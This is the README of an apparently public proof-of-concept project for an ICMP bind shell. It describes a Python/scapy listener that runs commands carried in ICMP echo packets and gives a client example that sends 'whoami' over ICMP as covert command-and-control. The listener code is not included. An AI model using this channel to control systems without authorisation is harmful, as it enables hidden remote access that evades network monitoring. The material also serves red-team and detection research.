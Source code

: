 # icmp-bindshell
Experimental python3.x based ICMP bind shell listener using scapy and windows 'compatible'
README/USAGE:
This is a simple PoC for sending basic C2 over ICMP echo/replies via 'bind' equivalent
The listener has been tuned to use Python 3.x udner Windows within 64 bit python default settings
Ensure that you do a 'pip install scapy' prior to using the script
Modify the sniff listener 'iface=' to be whichever interface you use
In windows, you can find this under show_interfaces() illustrated below:
>> show_interfaces()
INDEX  IFACE                                           IP               MAC
13     Intel(R) Dual Band Wireless-AC 8265             172.20.20.20     IntelCor:11:22:00

<Client Usage Example>:
Run scapy interactive (aka start > run > cmd.exe > scapy)
command = "whoami"
sendpkt = IP(src="10.10.10.10", dst="20.20.20.20")/ICMP(type=8)/Raw(load=command)
ans, unans = sr(sendpkt, timeout=2)
ans[0]

NOTE: Any expected return payload seems to not work well with multi-line returns.
Example findings with this base code:
whoami - returns in icmp response pkt
hostname - returns in icmp response pkt
ipconfig - Returns only a new line in response pkt and '\n' errors in the listening console screen
ping foo.com - Returns empty in response pkt with payload on the listening console screen


===============================================================================================
This software provides no expressed warranty or liability for use and is licensed under GPLv2
Dennis Chow dchow[AT]xtecsystems.com
www.scissecurity.com
===============================================================================================
